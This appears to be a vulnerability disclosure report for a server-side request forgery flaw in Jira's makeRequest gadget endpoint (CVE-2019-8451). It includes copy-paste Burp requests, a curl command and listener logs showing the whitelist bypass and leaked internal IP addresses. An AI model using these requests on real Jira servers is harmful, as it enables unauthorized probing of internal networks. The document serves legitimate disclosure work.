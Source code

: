 
# Jira SSRF vulnerability (CVE-2019-8451)


## Summary

The */plugins/servlet/gadgets/makeRequest* resource in Jira allows remote attackers to access the content of internal network resources via a Server Side Request Forgery (SSRF) vulnerability due to a logic bug in the JiraWhitelist class.


## Affected assets 

 - $URL

## Steps To Reproduce

First, the request to example.com works properly. But this seems intended because no other domain works. 

Request (copy and paste in Burp)
```
POST /plugins/servlet/gadgets/makeRequest?url=https://$DOMAIN:1337@example.com HTTP/1.1
Host: $DOMAIN
Connection: close
Accept: */*
Accept-Language: en
Connection: close
X-Atlassian-token: no-check
Content-Length: 4

TEST
```

**Response**
```
HTTP/1.1 200 OK
Cache-Control: public,max-age=408569
Content-Disposition: attachment;filename=p.txt
Content-Security-Policy: frame-ancestors 'self'
Content-Type: application/json;charset=UTF-8
Date: Fri, 02 Oct 2020 21:52:11 GMT
Expires: Wed, 07 Oct 2020 15:21:40 GMT
Server: Apache/2.4.6 (Red Hat Enterprise Linux) OpenSSL/1.0.2k-fips PHP/5.4.16
Set-Cookie: atlassian.xsrf.token=XXX; Path=/; Secure
X-AREQUESTID: 1432x1201669x1
X-ASEN: SEN-10457568
X-AUSERNAME: anonymous
X-Content-Type-Options: nosniff
X-Frame-Options: SAMEORIGIN
X-UA-Compatible: IE=edge
X-XSS-Protection: 1; mode=block
Connection: close
Content-Length: 1439
Strict-Transport-Security: max-age=31536000

throw 1; < don't be evil' >{"https://$DOMAIN:1337@example.com":{"rc":200,"headers":{},"body":"<!doctype html>\n<html>\n<head>\n    <title>Example Domain<\/title>\n\n    <meta charset=\"utf-8\" />\n    <meta http-equiv=\"Content-type\" content=\"text/html; charset=utf-8\" />\n    <meta name=\"viewport\" content=\"width=device-width, initial-scale=1\" />\n    <style type=\"text/css\">\n    body {\n        background-color: #f0f0f2;\n        margin: 0;\n        padding: 0;\n        font-family: -apple-system, system-ui, BlinkMacSystemFont, \"Segoe UI\", \"Open Sans\", \"Helvetica Neue\", Helvetica, Arial, sans-serif;\n        \n    }\n    div {\n        width: 600px;\n        margin: 5em auto;\n        padding: 2em;\n        background-color: #fdfdff;\n        border-radius: 0.5em;\n        box-shadow: 2px 3px 7px 2px rgba(0,0,0,0.02);\n    }\n    a:link, a:visited {\n        color: #38488f;\n        text-decoration: none;\n    }\n    @media (max-width: 700px) {\n        div {\n            margin: 0 auto;\n            width: auto;\n        }\n    }\n    <\/style>    \n<\/head>\n\n<body>\n<div>\n    <h1>Example Domain<\/h1>\n    <p>This domain is for use in illustrative examples in documents. You may use this\n    domain in literature without prior coordination or asking for permission.<\/p>\n    <p><a href=\"https://www.iana.org/domains/example\">More information...<\/a><\/p>\n<\/div>\n<\/body>\n<\/html>\n"}}
```


But I discovered a way to bypass the whitelist of sites allowed to be accessible. Just adding a :80 after the domain will allow the request to work. 

Let me explain you the POC:

1. Start a HTTP Server using python
``sudo python -m SimpleHTTPServer 80``

2. Run this command using curl (change SERVER)

 curl -i -s -k -X $'POST' -H $'Host: $DOMAIN' -H $'Connection: close' -H $'Accept: */*' -H $'Accept-Language: en' -H $'Connection: close' -H $'X-Atlassian-token: no-check' -H $'Content-Length: 4' --data-binary $'TEST' $'https://$DOMAIN/plugins/servlet/gadgets/makeRequest?url=https://$DOMAIN:1337@**SERVER**:80'

If you want to use Burp, copy and paste this request:

```
POST /plugins/servlet/gadgets/makeRequest?url=https://$DOMAIN:1337@$DOMAIN2:80 HTTP/1.1
Host: $DOMAIN
Connection: close
Accept: */*
Accept-Language: en
Connection: close
X-Atlassian-token: no-check
Content-Length: 4

TEST
```

**Output** 

 - Burp
``` 
HTTP/1.1 200 OK
Cache-Control: public,max-age=3600
Content-Disposition: attachment;filename=p.txt
Content-Security-Policy: frame-ancestors 'self'
Content-Type: application/json;charset=UTF-8
Date: Fri, 02 Oct 2020 20:44:15 GMT
Expires: Fri, 02 Oct 2020 21:44:15 GMT
Server: Apache/2.4.6 (Red Hat Enterprise Linux) OpenSSL/1.0.2k-fips PHP/5.4.16
Set-Cookie: atlassian.xsrf.token=XXX; Path=/; Secure
X-AREQUESTID: 1364x1197884x1
X-ASEN: SEN-10457568
X-AUSERNAME: anonymous
X-Content-Type-Options: nosniff
X-Frame-Options: SAMEORIGIN
X-UA-Compatible: IE=edge
X-XSS-Protection: 1; mode=block
Connection: close
Content-Length: 115
Strict-Transport-Security: max-age=31536000

throw 1; < don't be evil' >{"https://$DOMAIN:1337@$DOMAIN2:80":{"rc":500,"headers":{},"body":""}}
``` 

 - curl 
 ```
 HTTP/1.1 200 OK
Cache-Control: public,max-age=3600
Content-Disposition: attachment;filename=p.txt
Content-Security-Policy: frame-ancestors 'self'
Content-Type: application/json;charset=UTF-8
Date: Fri, 02 Oct 2020 21:14:26 GMT
Expires: Fri, 02 Oct 2020 22:14:26 GMT
Server: Apache/2.4.6 (Red Hat Enterprise Linux) OpenSSL/1.0.2k-fips PHP/5.4.16
Set-Cookie: atlassian.xsrf.token=XXX; Path=/; Secure
X-AREQUESTID: 1394x1199510x1
X-ASEN: SEN-10457568
X-AUSERNAME: anonymous
X-Content-Type-Options: nosniff
X-Frame-Options: SAMEORIGIN
X-UA-Compatible: IE=edge
X-XSS-Protection: 1; mode=block
Connection: close
Content-Length: 115
Strict-Transport-Security: max-age=31536000

throw 1; < don't be evil' >{"https://$DOMAIN:1337@$DOMAIN2:80":{"rc":500,"headers":{},"body":""}}
```

 **Server side ouput**

```
sudo python -m SimpleHTTPServer 80
Serving HTTP on 0.0.0.0 port 80 ...
62.52.253.144 - - [02/Oct/2020 20:43:39] code 400, message Bad request syntax ('\x16\x03\x03\x00\xe0\x01\x00\x00\xdc\x03\x03_w\x90\xf8')
62.52.253.144 - - [02/Oct/2020 20:43:39] "��_w��" 400 -
62.52.253.146 - - [02/Oct/2020 20:43:49] code 400, message Bad HTTP/0.9 request type ('\x16\x03\x03\x00\xe0\x01\x00\x00\xdc\x03\x03_w\x91\x03\x8f\x10L\x9d\x1f%K')
+�[[K�X߱��#�y��Р?�V�$�(=�&�*kj�" 400 -49] "��_w��L�%K
62.52.253.144 - - [02/Oct/2020 20:43:55] code 400, message Bad request syntax ('\x16\x03\x03\x00\xe0\x01\x00\x00\xdc\x03\x03_w\x91\x08\xa9\xa8\x14\xe9\x99\xa8\xfa\x12wj\x97\xad\xbcQw\x8d+A\xd7\xf4^\xa9\xdb^QX\xe5\x9b\x00\x00V\xc0$\xc0(\x00=\xc0&\xc0*\x00k\x00j\xc0')
62.52.253.144 - - [02/Oct/2020 20:43:55] "��_w��陨�wj���Qw�+A��^��^QX�V�$�(=�&�*kj�" 400 -
62.52.253.146 - - [02/Oct/2020 20:44:00] code 400, message Bad request syntax ('\x16\x03\x03\x00\xe0\x01\x00\x00\xdc\x03\x03_w\x91\r\xcaL\x0b\xe3!Ph\xa3\x9dc\xed%~\xcd\x9c1Tk?\t\x85V\xc8;\x8a \xf0\xb2\x00\x00V\xc0$\xc0(\x00=\xc0&\xc0*\x00k\x00j\xc0')
�L.52.253.146 - - [02/Oct/2020 20:44:00] "��_w�
  �!Ph��c�%~͜1Tk?	�V�;� �V�$�(=�&�*kj�" 400 -
62.52.253.147 - - [02/Oct/2020 20:44:06] code 400, message Bad HTTP/0.9 request type ('\x16\x03\x03\x00\xe0\x01\x00\x00\xdc\x03\x03_w\x91\x13D\xad\xdb\xec<\xec\x80\x9e\x82')
62.52.253.147 - - [02/Oct/2020 20:44:06] "��_w�D���<쀞�	�-�E����f`�))p�C(V�$�(=�&�*kj�" 400 -
62.52.253.147 - - [02/Oct/2020 20:44:15] code 400, message Bad HTTP/0.9 request type ('\x16\x03\x03\x00\xe0\x01\x00\x00\xdc\x03\x03_w\x91\x1c)\x01\xa2\x90?')
"�k��`t�>�w��Ǔ_řʞV�$�(=�&�*kj�" 400 -15] "��_w�)��?
62.52.253.144 - - [02/Oct/2020 20:44:18] code 400, message Bad request syntax ("\x16\x03\x03\x00\xe0\x01\x00\x00\xdc\x03\x03_w\x91\x1fDs\xa5\xc5\xe9s\xb0\x88)\xd9'R\xef\x91\x16\xf0Hw3\xfb\xd3\xf1\xd7\xc3\xcb\xf6hW\x00\x00V\xc0$\xc0(\x00=\xc0&\xc0*\x00k\x00j\xc0")
62.52.253.144 - - [02/Oct/2020 20:44:18] "��_w�Ds���s��)�'R��Hw3�������hWV�$�(=�&�*kj�" 400 -
62.52.253.146 - - [02/Oct/2020 20:46:13] code 400, message Bad request syntax ('\x16\x03\x03\x00\xe0\x01\x00\x00\xdc\x03\x03_w\x91\x92\xa2\'\x8a""nY,gz\xbb\x1e\xfb|b\xf7\x8c&\x1cZ\xc2\x03s@\xd9w\xae)\x00\x00V\xc0$\xc0(\x00=\xc0&\xc0*\x00k\x00j\xc0')
62.52.253.146 - - [02/Oct/2020 20:46:13] "��_w���'�""nY,gz��|b��&Z�s@�w�)V�$�(=�&�*kj�" 400 -
62.52.253.146 - - [02/Oct/2020 20:46:25] code 400, message Bad request syntax ("\x16\x03\x03\x00\xe0\x01\x00\x00\xdc\x03\x03_w\x91\x9e@\x91\xfd\xe7MBz\xb1`uN\x8b\x0f\x7f\xc8\xae\xb6\x13\xb9T2\xf7\x117K\xcd'^\x00\x00V\xc0$\xc0(\x00=\xc0&\xc0*\x00k\x00j\xc0")
62.52.253.146 - - [02/Oct/2020 20:46:25] "��_w��@���MBz�`uN�Ȯ��T2�7K�'^V�$�(=�&�*kj�" 400 -
62.52.253.145 - - [02/Oct/2020 20:56:30] code 400, message Bad request syntax ('\x16\x03\x03\x00\xe0\x01\x00\x00\xdc\x03\x03_w\x93\xfbt0\x93\x90\xa4\xc6t\xaa2j\xcf\x1a=\xfd{\x9f\x8bq8\xfc\x8c\xc8\x95\xe2\xae\xc6J\xfb\x00\x00V\xc0$\xc0(\x00=\xc0&\xc0*\x00k\x00j\xc0')
62.52.253.145 - - [02/Oct/2020 20:56:30] "��_w��t0����t�2j��=�{��q8��ȕ��J�V�$�(=�&�*kj�" 400 -
62.52.253.145 - - [02/Oct/2020 20:57:36] code 400, message Bad HTTP/0.9 request type ('\x16\x03\x03\x00\xe0\x01\x00\x00\xdc\x03\x03_w\x94=(')
62.52.253.145 - - [02/Oct/2020 20:57:36] "��_w�=(	`?ڠAU"�8�}:x�z(���;v�" 400 -
62.52.253.147 - - [02/Oct/2020 20:59:17] code 400, message Bad request syntax ("\x16\x03\x03\x00\xe0\x01\x00\x00\xdc\x03\x03_w\x94\xa2\xd8\xa7'\xcb\xc0\xfe\xccKb\xe2Ex\xbd\x9e\xaf\xc7?\xa5L\xe0^\xb4\xe9t'D\x1b\xbd\x00\x00V\xc0$\xc0(\x00=\xc0&\xc0*\x00k\x00j\xc0")
62.52.253.147 - - [02/Oct/2020 20:59:17] "��_w��ا'����Kb�Ex����?�L�^��t'DV�$�(=�&�*kj�" 400 - 
```
**Pay attention to the IP addresses.**

The output is scrambled because it's a HTTPs request sent to a HTTP server. (Testing the same using HTTPS didn't work) 


## Impact

The request reveals many IP addresses from the company. The scope of the SSRF is limited but still source to perform different crafted attacks. 


### Supporting Material/References:

 - [NVD CVE](https://nvd.nist.gov/vuln/detail/CVE-2019-8451)
 - [JIRA](https://jira.atlassian.com/browse/JRASERVER-69793)
 - [SSRF](https://portswigger.net/web-security/ssrf) 

